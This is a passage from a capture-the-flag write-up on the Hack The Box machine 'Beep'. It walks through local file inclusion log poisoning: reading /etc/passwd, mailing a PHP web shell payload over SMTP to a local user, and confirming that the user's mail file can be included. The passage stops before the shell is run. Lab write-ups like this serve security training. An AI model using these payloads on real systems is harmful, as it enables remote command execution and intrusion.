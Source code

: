Let's stick to the LFI log poisoning!

According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-email), we can **send a mail** to a internal account (`user@localhost`) containing our PHP payload like `<?php echo system($_REQUEST["cmd"]); ?>` and try to include to the mail of the user with a path like `/var/mail/<USERNAME>` or `/var/spool/mail/<USERNAME>`.

To send a email, we need to:

- Find a internal account:

**This can be achieved via LFI:**
```shell
> /etc/passwd
[+] File content:
root:x:0:0:root:/root:/bin/bash
[...]
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
[...]
fanis:x:501:501::/home/fanis:/bin/bash
```

In here, we can see that there's user called `asterisk`, and `fanis`.

After some testing, we can send a email to user `asterisk` and able to read its email.

- Send a email with PHP web shell payload to system user `asterisk`:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:42:23(HKT)]
└> telnet $RHOSTS 25
[...]
220 beep.localdomain ESMTP Postfix
MAIL FROM: blah@foobar.anything
250 2.1.0 Ok
RCPT TO: asterisk@beep.localdomain
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET["cmd"]); ?>
.
250 2.0.0 Ok: queued as F0B55D92FD
```

- Verify we can read `asterisk`'s email:

```shell
> /var/mail/asterisk
[+] File content:
From blah@foobar.anything  Thu Aug  3 12:46:07 2023
Return-Path: <blah@foobar.anything>
X-Original-To: asterisk@beep.localdomain
Delivered-To: asterisk@beep.localdomain
Received: from unknown (unknown [10.10.14.8])
	by beep.localdomain (Postfix) with SMTP id F0B55D92FD
	for <asterisk@beep.localdomain>; Thu,  3 Aug 2023 12:45:47 +0300 (EEST)
Message-Id: <20230803094600.F0B55D92FD@beep.localdomain>
Date: Thu,  3 Aug 2023 12:45:47 +0300 (EEST)
From: blah@foobar.anything
To: undisclosed-recipients:;
```
